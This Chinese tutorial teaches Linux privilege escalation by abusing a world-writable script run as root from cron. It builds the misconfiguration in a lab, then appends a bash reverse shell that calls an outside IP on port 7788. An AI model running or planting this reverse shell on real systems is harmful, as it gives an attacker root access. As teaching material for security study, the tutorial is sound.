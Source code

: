 ### 定时任务提权

如果可以 找到 root 权限运行的定时任务脚本, 以及当前用户有权限编辑，那么就可以通过修改脚本实现提权

本质上就是文件权限配置不当

首先以 root 创建一个定时任务

```bash
vim /tmp/test.sh
```

![](https://pic1.imgdb.cn/item/68d36d85c5157e1a882c811f.png)

再编辑定时任务

```
vim /etc/crontab
*/1 * * * * root /bin/bash /tmp/test.sh
```

![](https://pic1.imgdb.cn/item/68d3879bc5157e1a882c8a7e.png)

最后模拟配置错误

```bash
chmod 777 /tmp/test.sh
```

查看计划任务，找到 root 权限运行且有修改权限的定时任务脚本 , 在计划任务对应中追加提权后门

```bash
# 在 derian 用户下查看定时任务
more /etc/crontab
ls -la /tmp/test.sh
```

![](https://pic1.imgdb.cn/item/68d386a8c5157e1a882c8a10.png)

修改脚本

```
/bin/bash -i >& /dev/tcp/113.45.17.228/7788 0>&1
```

![](https://pic1.imgdb.cn/item/68d38766c5157e1a882c8a72.png)